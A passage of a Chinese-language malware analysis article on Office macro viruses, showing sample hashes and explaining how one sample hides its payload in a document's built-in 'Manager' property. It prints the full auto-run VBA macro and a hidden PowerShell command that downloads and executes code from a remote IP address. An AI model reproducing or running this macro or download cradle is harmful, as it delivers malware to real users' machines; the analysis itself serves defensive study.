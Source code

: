 几个字符串呈现出非常明显的意图，下载（Microsoft.XMLHTTP）+ 写文件（Adodb.stream）+ 执行（shell.Application / Wscript.shell）。

此样本因为代码有问题，没能成功运行起来。找到宏代码中使用 Microsoft.XMLHTTP 对象下载文件的位置，加上断点调试，起先因为作者疏忽，忘记书写一个双引号，导致编译失败，

![p15](http://drops.javaweb.org/uploads/images/3d992bd10551d0baea1b955677ff1f464a9926e6.jpg)

之后，运行到下载文件处时，出现了报错。

![p16](http://drops.javaweb.org/uploads/images/1b908e3bbdd7475fa1f9db8712a235af27389acc.jpg)

0x03 文档内建属性隐藏代码
=====

此类病毒把代码核心恶意部分放入文档的内建属性中。

*   样本文件md5：0ce81eda6b6886163cf5dadffecc0df9
*   sha256: 23d07a51f7a14a95a1efc55ad3f18cd5a71607156cd325256d43f0b68cfb62cd

virustotal 扫描结果:

![p17](http://drops.javaweb.org/uploads/images/08edfa1f5940edd419b7aaae0313186575e954df.jpg)

此样本的vba 宏代码只有1个文件，很简短，

```
Attribute VB_Name = "NewMacros"
Sub Auto_Open()
Call winshell
End Sub

Sub AutoOpen()
Call winshell
End Sub

Function winshell() As Object
    On Error Resume Next
    Err.Clear

    Dim ps As String
    ps = ActiveDocument.BuiltInDocumentProperties("Manager").Value
    Dim Obj As Object
    Set Obj = CreateObject("WScript.Shell")
    Obj.Run ps, 0

Application.DisplayAlerts = False
End Function

```

响应两个文档打开事件，AutoOpen 与Auto_Open，直接执行 winshell函数， winshell函数读取文件内建属性，Manager 的值，直接执行起来。Manager值，我们使用右键文件属性，查看为，

![p18](http://drops.javaweb.org/uploads/images/aacd056dff3659ee2fc380d004962ea7f4da1ef9.jpg)

```
powershell.exe -nop -w hidden -c $b=new-object net.webclient;$b.proxy=[Net.WebRequest]::GetSystemWebProxy();$b.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $b.downloadstring('http://37.28.154.204:8081/ygklKbyIVG51Kol');

```
